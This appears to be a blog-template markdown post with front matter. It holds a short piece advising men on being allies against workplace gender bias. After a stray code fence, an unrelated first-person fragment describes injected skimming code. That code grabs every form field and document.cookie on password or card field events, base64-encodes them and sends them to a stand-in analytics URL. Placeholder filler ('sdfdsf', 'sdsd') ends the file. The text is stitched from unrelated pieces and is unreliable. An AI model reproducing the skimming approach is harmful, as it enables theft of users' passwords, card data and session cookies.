 ```yaml
---
path: '/second-post'
title: 'Be a Pal, My Dudes'
published: true
date: '2017-11-23'
author: 'James Willis'
identifier: 'asdw234643435dsa09c9j1'
tags: ["be", "a", "pal", "my", "dudes"]
minutes: '4'
image: 'https://images.unsplash.com/photo-1433769614376-f7231cd16a55?ixlib=rb-0.3.5&ixid=eyJhcHBfaWQiOjEyMDd9&s=6db43fbcbf37741adf0cedcd36bd4e80&auto=format&fit=crop&w=1350&q=80'
---
```


## A few specific ideas for being a good ally

So, we run a [workshop](google.com) to help women reduce the impact of gender bias in the workplace. A commonly asked question is something like “Why aren’t you running a workshop for men, since they are the ones who have to change?” The short answer is that it’s a complex dynamic, and women have the most incentive to change it. Our approach is to help decrease the amount of effort overall since women in male-dominated workplaces are already putting in so much extra because of bias. If you want to change habits, start where there are already strong incentives for change.

The longer answer is, we’re working on it.

In the meantime, I know there are a lot of men out there right now with good intentions who want to help change things, but it’s not always clear which actions are most helpful. And asking the people who are already doing extra work to do the additional work of teaching you how to help them do less work is…annoying. This is true for anyone who has more privilege in any given situation. Do your part to make it easier.

![alttext](https://cdn-images-1.medium.com/max/800/1*7iVk_As1gKmrFo3e6E9qPg.png)
<figcaption>Don’t be this guy. Why would anyone want to be this guy?</figcaption>

So, based on what we’ve heard in our workshops, conversations with colleagues, and straight-up asking Twitter, here are a few very specific helpful actions you can take. Many of these you’ve probably heard before. If we keep repeating, maybe they’ll stick. We all know the right thing to do, it’s cultivating a habit of doing the right thing in the moment that is so hard.

(Note: This list is just a starting point, and I’ve focused on peer-level actions, not management. I’ll probably make some edits and amendments and will definitely write more on this topic. Thanks to everyone weighing in!)

## Listen to women
This is fundamental on all levels. Listen to the individual woman who is talking to you. Assume she knows what she is talking about. Listen to the collective voices of women saying there is a problem. Stifle any urge to respond defensively. Don’t try to guess what they’re about to say. Just listen.

And don’t interrupt.

## Create space for women to speak
“The research suggests that, in groups, men tend to get and keep the floor more often than women, talk more often and for longer, interrupt more, and make different kinds of contributions, using language strategies that challenge, create and maintain status distinctions (i.e. they create and maintain asymmetrical alignments between themselves and interlocutors).”

—“Gender and Language in the Workplace” by Shari Kendall and Deborah Tannen

When you are speaking, you can help just by getting to your point faster. This helps everyone, really.

For bonus points, start paying attention in meetings and listen for men using far more words than necessary. Logorrhea is not necessarily a conscious move, and often comes from insecurity. Truly confident people are succinct.


```


Then, when there’s a blur event on a password/credit card field, or a form submit event is heard, my code:

* Takes data from all form fields (document.forms.forEach(…)) on the page
* Grabs document.cookie
* It turns all that into a random looking string const payload = btoa(JSON.stringify(sensitiveUserData))
* Then sends it off to `https://legit-analytics.com?q=${payload}` (not the real domain, of course)
* In `short`, if ```it looks``` like data that might be even remotely valuable to me, I send it off to my server.

> *f an attacker successfully injects any code at all, it’s pretty much game over*
sdfdsf
sdfsdf

![My image](https://cdn-images-1.medium.com/max/800/1*ePuviAguE9BPZ2GgdY8UXg.png)
  <figcaption>sdsd</figcaption>



  ![My image](https://upload.wikimedia.org/wikipedia/commons/b/be/Sharingan_triple.svg)
  <figcaption>sdsd</figcaption>
